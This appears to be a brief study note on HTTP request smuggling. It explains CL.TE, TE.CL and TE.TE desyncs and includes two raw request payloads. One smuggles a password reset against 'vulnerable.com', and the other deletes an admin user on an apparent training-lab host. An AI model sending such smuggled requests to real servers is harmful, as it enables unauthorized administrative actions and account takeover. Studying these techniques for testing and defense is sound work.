 ## Request smuggling
is a vulnerability introduced when reverse-proxies and backend servers are not syncronized in their preference for either the ```Content-Length```
or ```Transfer-Encoding``` header for defining the boundaries of incoming client requests.

This desync allows an attacker to send a request that would overlap with other requests on the stack that are forwarded to the backend 
For example: injecting a POST request that has a body parameter ```smuggling=``` and ```Content-Length: 30``` - 
resulting in the request line of the next request in the stack to be parsed as the content of the variable smuggling, reulting in part
of the request to be interpreted as the start of the next request.


the vuln could be classified as either of the following:

    * ```CL.TE``` the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
    * ```TE.CL``` the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
    * ```TE.TE``` the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

#### ```CL.TE``` example
```
POST / HTTP/1.1
Host: vulnerable.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

GET /reset?pass=smuggled HTTP/1.1
Host: vulnerable.com
```

#### ```TE.CL``` example
```
POST / HTTP/1.1
Host: 0a7500c10314fd5a8767681c0018002e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```
in this example, the ```Content-Length``` of the injected POST request surpasses the length of ```x=1\r\n0\r\n\r\n```, resulting in the parsing of the next incoming request's line as
the body of a POST request.
